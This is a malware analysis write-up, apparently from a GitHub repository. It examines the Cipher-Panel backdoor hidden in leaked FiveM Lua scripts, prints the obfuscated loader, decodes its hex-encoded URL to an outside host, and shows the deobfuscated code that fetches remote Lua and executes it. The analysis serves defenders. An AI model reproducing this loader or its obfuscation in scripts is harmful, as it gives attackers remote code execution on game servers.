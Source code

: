 ## Chapter 1 (Original Entry)
This chapter contains the breakdown of the original entry code used by Cipher-Panel.

### Introduction
The original entry code is a very simple snippet of code that can be inserted into any FiveM script that is used as a payload to download the malicious code.

The normal method for the sharing of this is through leaked scripts uploaded by users that only intend to gain access and extort people for money.

#### Original Code
```lua
    local Enchanced_Tabs = {
        Ench, Support, Host, Pairs,
        Realease, Callbacks, Source,
        Hosting, Event, PerformHttpRequest,
        assert, server, load, Spawn, materials
    }

    local random_char = {
        '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
        '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69',
        '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
    }

    function str_utf8()
        _empt = ''
        for id,it in pairs(random_char) do
            _empt = _empt..it
        end
        return (_empt:gsub('..', function (cc)
            return string.char(tonumber(cc, 16))
            
        end))
    end

    Enchanced_Tabs[10](str_utf8(), function (e, d)
        local s = Enchanced_Tabs[11](Enchanced_Tabs[13](d))
        if (d == nil) then return end
        s()
    end)
```

Just from looking at this code, we can gather a fair amount of information.
  - The code is designed to look clean by using function names that aren't associated with malicious code such as **random_char**.
  - They are hiding function names encoded with UTF-8 in an array that they convert rather than keeping function names in all of the malicious functions.

This being said we have to map the values to better understand the code. This is done by turning `Enchanced_Tabs[13]` into the corresponding index in the UTF-8 encoded array. We will also take this chance to normalize the field names and remove the junk code used to obscure the real functionality.

#### UTF-8 Array Reversal
```
Input: '68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72', '2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f'; '69', '3f', '74', '6f', '3d', '6c', '36', '54', '72', '32'
Encoded: \x68\x74\x74\x70\x73\x3a\x2f\x2f\x63\x69\x70\x68\x65\x72\x2d\x70\x61\x6e\x65\x6c\x2e\x6d\x65\x2f\x5f\x69\x2f\x69\x3f\x74\x6f\x3d\x6c\x36\x54\x72\x32
Plain Text: https://cipher-panel.me/_i/i?to=l6Tr2
```

#### Function Name Array Mapping
```
Enchanced_Tabs[1] = Ench; (Junk Code)
Enchanced_Tabs[2] = Support; (Junk Code)
Enchanced_Tabs[3] = Host; (Junk Code)
Enchanced_Tabs[4] = Pairs; (Junk Code)
Enchanced_Tabs[5] = Realease; (Junk Code)
Enchanced_Tabs[6] = Callbacks; (Junk Code)
Enchanced_Tabs[7] = Source; (Junk Code)
Enchanced_Tabs[8] = Hosting; (Junk Code)
Enchanced_Tabs[9] = Event; (Junk Code)
Enchanced_Tabs[10] = PerformHttpRequest;
Enchanced_Tabs[11] = assert; (Junk Code)
Enchanced_Tabs[12] = server; (Junk Code)
Enchanced_Tabs[13] = load; (Junk Code)
Enchanced_Tabs[14] = Spawn; (Junk Code)
Enchanced_Tabs[15] = materials; (Junk Code)
```

#### Final Mapped Code
```lua
    PerformHttpRequest("https://cipher-panel.me/_i/i?to=l6Tr2", function (errorCode, responseBody)
        local payload = assert(load(responseBody))
        if (responseBody == nil) then return end
        payload()
    end)
```

The final mapped code continuously makes an HTTP request to an endpoint that is provided to paid users by Cipher-Panel. This endpoint can't be accessed normally as they have Cloudflare page rules set up to only accept the User-Agent that FiveM makes HTTP requests with (FXServer/PerformHttpRequest). The responseBody field returns the body from the endpoint that contains lua code for the next step of this fuck fest.

[Chapter 2 (Infection)](https://github.com/ericstolly/)
